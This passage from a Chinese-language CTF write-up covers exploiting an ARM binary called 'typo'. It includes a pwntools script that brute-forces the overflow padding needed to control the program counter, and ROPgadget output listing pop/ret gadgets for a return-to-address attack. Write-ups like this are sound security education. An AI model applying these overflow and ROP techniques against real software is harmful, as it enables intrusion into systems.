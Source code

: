 进一步分析发现程序有大量代码没有被反编译！

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-01-29-121539.png)

在进行进一步跟进分析发现此程序在IDA中大量的识别错误，包括但不限于大量的函数尾识别出错，堆栈分析错误，于是放弃静态分析的利用思路。

#### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF"></a>利用思路

考虑使用爆破padding的方式来获取正确的PC控制偏移。

#### <a class="reference-link" name="padding%E7%88%86%E7%A0%B4"></a>padding爆破

```
def get_padding_length():
    length = 0
    while True:
        sh = get_sh()
        sh.recvuntil('if you want to quitn')
        sh.send('n')
        sh.recvrepeat(0.3)
        sh.sendline('A' * length + p32(0x8F00))
        try:
            if 'if you want to quitn' in sh.recvrepeat(0.3):
                return length
            sh.sendline('~')
            log.info('When padding is ' + str(length) + ', Success exit!')
            length = length + 1
            sh.close()
        except:
            log.info('When padding is ' + str(length) + ', Fail exit!')
            length = length + 1
            sh.close()
            pass
```

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-01-30-091254.png)

#### <a class="reference-link" name="Ret2addr"></a>Ret2addr

首先我们找一个合适的gadget用以劫持PC指针，此处我们选用0x00020904处的gadget。

```
error404@error404-PC:/media/psf/Home/Desktop/CTF_question/ARM_dir$ ROPgadget --binary 'typo' --only 'pop|ret'
Gadgets information
============================================================
0x00008d1c : pop {fp, pc}
0x00020904 : pop {r0, r4, pc}
0x00068bec : pop {r1, pc}
0x00008160 : pop {r3, pc}
0x0000ab0c : pop {r3, r4, r5, pc}
0x0000a958 : pop {r3, r4, r5, r6, r7, pc}
0x00008a3c : pop {r3, r4, r5, r6, r7, r8, fp, pc}
0x0000a678 : pop {r3, r4, r5, r6, r7, r8, sb, pc}
0x00008520 : pop {r3, r4, r5, r6, r7, r8, sb, sl, fp, pc}
0x00068c68 : pop {r3, r4, r5, r6, r7, r8, sl, pc}
0x00014a70 : pop {r3, r4, r7, pc}
0x00008de8 : pop {r4, fp, pc}
0x000083b0 : pop {r4, pc}
0x00008eec : pop {r4, r5, fp, pc}
0x00009284 : pop {r4, r5, pc}
0x000242e0 : pop {r4, r5, r6, fp, pc}
0x000095b8 : pop {r4, r5, r6, pc}
```